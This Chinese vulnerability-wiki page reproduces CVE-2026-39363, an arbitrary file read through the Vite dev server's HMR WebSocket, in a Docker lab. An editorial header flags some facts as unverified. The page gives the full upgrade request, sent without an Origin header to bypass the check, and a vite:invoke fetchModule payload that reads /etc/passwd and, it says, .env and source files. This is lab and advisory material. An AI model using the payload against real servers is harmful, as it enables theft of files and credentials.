



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：6.0.0–&lt;6.4.2、7.0.0–&lt;7.3.2、8.0.0–&lt;8.0.5；实验7.3.1，开发WS对攻击者可达

代码与实验材料：有完整升级请求、vite:invoke帧、无Origin非浏览器前提和返回字段，截图未视检

来源证据范围：官方GHSA与NVD

- **事实待核（1）**：目录分类应归Vite；依据：WebSocket不是受影响产品，应与587–589统一产品并保留不同CVE。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：修复说明应明确分支；依据：开头给阈值，末尾仅最新，需结构化列各分支修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：Origin拒绝状态与only --host表述需限定；依据：反向代理也可暴露回环服务，具体拒绝400和可信列表以部署配置为准。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Vite 开发服务器 WebSocket 任意文件读取漏洞 CVE-2026-39363

## 漏洞描述

Vite 是一个现代前端构建工具，为 Web 项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用 Rollup 打包代码的构建命令。

在 Vite 6.0.0 至 6.4.2 之前、7.0.0 至 7.3.2 之前以及 8.0.0 至 8.0.5 之前的版本中，HTTP 请求路径上强制执行的文件系统访问控制（如 `server.fs.allow` 和 `server.fs.deny`）并未应用于开发服务器 WebSocket 暴露的 `fetchModule` 方法。攻击者只要能够访问 WebSocket 接口，就可以通过自定义事件 `vite:invoke` 调用 `fetchModule`，并结合 `file://` 协议与 `?raw`（或 `?inline`）查询参数，将服务器上的任意文件以 JavaScript 模块字符串的形式读取出来。

只有显式将 Vite 开发服务器暴露到网络（使用 `--host` 参数或 `server.host` 配置项）的应用才会受到影响，因为默认仅监听回环地址时远程攻击者无法访问该 WebSocket 接口。

参考链接：

- https://github.com/vitejs/vite/security/advisories/GHSA-p9ff-h696-f583
- https://nvd.nist.gov/vuln/detail/CVE-2026-39363

## 环境搭建

Vulhub 执行以下命令启动 Vite 7.3.1 开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问 `http://your-ip:5173` 来访问 Vite 开发服务器。




## 漏洞复现

漏洞利用入口是 Vite HMR 的 WebSocket 接口，该接口使用 `vite-hmr` 子协议。攻击者发送一个自定义的 `vite:invoke` 事件，其负载会调用 `fetchModule` 方法并传入以 `?raw` 结尾的 `file://` URL，即可将任意文件以 JavaScript 模块字符串的形式读取出来。

首先，打开 Yakit，依次点击“首页→工具箱→Websocket Fuzzer”向 `your-ip:5173` 发起一个新的 WebSocket 连接，升级请求如下。

注意这个请求刻意没有携带 `Origin` 头——当 Vite 开发服务器通过 `--host` 暴露到网络时，它会拒绝 `Origin` 不在可信列表中的 WebSocket 升级请求，但会放行不带 `Origin` 的请求，而这正是非浏览器客户端的默认行为。如果你是从浏览器抓包后再重放，记得先把 `Origin` 那一行删掉，否则服务端会返回 `400 Bad Request`：

```
GET / HTTP/1.1
Host: your-ip:5173
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Sec-WebSocket-Protocol: vite-hmr
```




升级成功后，服务端会立即推送一个 `{"type":"connected"}` 欢迎帧。然后，发送如下 JSON 作为 WebSocket 文本帧：

```
{"type":"custom","event":"vite:invoke","data":{"id":"send:0","name":"fetchModule","data":["file:///etc/passwd?raw"]}}
```

开发服务器会返回另一个 `vite:invoke` 帧，其 `data.result.code` 字段中包含 `/etc/passwd` 文件内容，并以 JavaScript 模块默认导出的形式输出：




如截图所示，服务器上的 `/etc/passwd` 文件内容已经通过开发服务器的 WebSocket 成功读取出来，漏洞利用确认成功。

同样的 Payload 也可以将 `?raw` 替换为 `?inline` 使用。通过修改目标路径，可以读取 Node.js 进程有权限访问的任意文件，例如应用源码、配置文件或 `.env` 等环境变量文件。

## 漏洞修复

- 更新至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
